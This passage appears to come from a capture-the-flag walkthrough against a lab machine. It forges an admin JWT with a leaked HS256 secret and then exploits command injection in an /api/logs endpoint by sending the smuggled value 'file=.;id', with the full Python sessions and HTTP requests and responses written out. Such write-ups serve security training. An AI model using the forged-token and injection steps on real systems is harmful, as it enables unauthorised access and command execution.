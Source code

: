 Confirm this secret is valid by using it to decode a legitimate JWT from the web application.

```python
>>> import jwt
>>> token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjA1YTU0YTFhNzFmMDA0NzllYjk4ZmQiLCJuYW1lIjoidGdpaGYtc2VjcmV0IiwiZW1haWwiOiJ0Z2loZkB0Z2loZi5jbGljayIsImlhdCI6MTY0NDU2MDI2N30.xJZnqd60iLM_W3pFWc8MSQTygeTtgy89ETKPRRzDgr0"
>>> secret = "gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE"
>>> jwt.decode(token, secret, algorithms=["HS256"])
{'_id': '6205a54a1a71f00479eb98fd', 'name': 'tgihf-secret', 'email': 'tgihf@tgihf.click', 'iat': 1644560267}
```

The command injection vulnerability in the `/api/logs` endpoint is only accessible with a JWT whose payload has a `name` value of `theadmin`. Generate a JWT with such a payload using the obtained secret.

```python
>>> import jwt
>>> secret = "gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE"
>>> payload = {"name": "theadmin", "email": "root@dasith.works"}
>>> jwt.encode(payload, secret, algorithm="HS256")
'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIn0.ao6g0m3rhMoh8UxjtbTuxL_TBFNxijlH21NoLOxtrJ0'
```

Use this JWT in the `auth-token` HTTP header to query the `/api/logs` endpoint, injecting the `id` command. The output confirms the presence of the vulnerability and that command injection is occurring in the context of the `dasith` user.

```http
GET /api/logs?file=.;id HTTP/1.1
Host: 10.129.155.137
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIn0.ao6g0m3rhMoh8UxjtbTuxL_TBFNxijlH21NoLOxtrJ0
Upgrade-Insecure-Requests: 1
```

```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 155
ETag: W/"9b-6cJp+SkJqlDFkmKttxMb7Zneqvg"
Date: Fri, 11 Feb 2022 06:22:03 GMT
Connection: close

"80bf34c fixed typos 🎉\n0c75212 now we can view logs from server 😃\nab3e953 Added the codes\nuid=1000(dasith) gid=1000(dasith) groups=1000(dasith)\n"
```
